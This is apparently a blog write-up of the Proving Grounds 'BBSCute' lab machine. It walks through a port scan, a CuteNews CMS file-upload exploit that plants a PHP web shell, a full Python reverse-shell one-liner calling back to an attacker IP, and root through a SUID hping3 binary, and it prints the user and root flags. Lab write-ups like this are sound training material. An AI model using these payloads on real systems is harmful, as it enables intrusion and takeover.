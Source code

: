 ```yaml
---
title: BBSCute
categories: [Proving Grounds, Play]
tags: [CMS, CuteNews_CMS, RFI, hping3, PrivEsc, Public Exploit, File Upload, SUIDs]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  BBSCute Machine 🖥️
---
```



### Lets check the IP address of victim machine first ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled.png)

```bash
IP : 10.0.2.48
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BBSCute]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.48
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 19:53 IST
Nmap scan report for 10.0.2.48
Host is up (0.00056s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) STLS TOP UIDL PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: UTF8(USER) LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) TOP UIDL PIPELINING USER
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
MAC Address: 08:00:27:BF:70:A5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%201.png)

### Directory / Files Bruteforcing ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%202.png)

Now lets dig into the index.php file →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%203.png)

Lets Register first →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%204.png)

Now I can’t find captcha this was because of my IP address configuration so manually I need to call `captcha.php` file for captcha ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%205.png)

with that lets login Now with my credentials ⤵️

```bash
Username : shiva 
Password : password
```
{: .nolineno}

After login I got this interface ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%206.png)

After looking for an exploit I got this [exploit](https://www.exploit-db.com/exploits/48800) and I followed the path →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%207.png)

Here in this exploit I have to create a payload file like this ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%208.png)

Now with gif magic byte the file is now image file →

Now lets upload it through our dashboard ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%209.png)

Now when I saved it , It got successfully uploaded so now I have to load the file for that lets follow through the exploit again —>

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2010.png)

Through this my URL was → [https://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami](https://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami)

In response I got ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2011.png)

Now its time for reverse shell python payload input →

```bash
Python Payload >
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2012.png)

Now when I got the shell lets check for SUIDs and GUIDs →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2013.png)

Also I found `user.txt` file —>

```bash
www-data@cute:/home/fox$ cat user.txt
cat user.txt
dcb8189a0eaf7a690a67785a7299be60
www-data@cute:/home/fox$
```
{: .nolineno}

Now lets exploit our hping3 ⤵️

```bash
www-data@cute:/$ /usr/sbin/hping3    
/usr/sbin/hping3
hping3> /bin/sh -p
/bin/sh -p
# whoami
whoami
root
#
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Sep 23  2020 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
-rw-------  1 root root   70 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   36 Sep 17  2020 .lesshst
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Sep 17  2020 localweb
-rw-------  1 root root   33 Sep 18  2020 root.txt
# cat root.txt
cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }